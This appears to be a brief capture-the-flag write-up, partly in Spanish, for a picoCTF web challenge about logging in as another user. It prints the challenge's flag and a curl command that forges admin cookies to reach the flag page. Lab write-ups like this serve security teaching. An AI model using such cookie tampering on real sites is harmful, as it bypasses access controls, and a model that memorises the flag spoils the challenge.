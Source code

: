 ## Descripción

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Solución

picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
## Notas Adicionales

instalar cookie-editor , desde ahi puedes adminitrar los permisos, 

Otra Opcion
curl -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=admin; password=admin; admin=True"
## Referencias
Cookie editor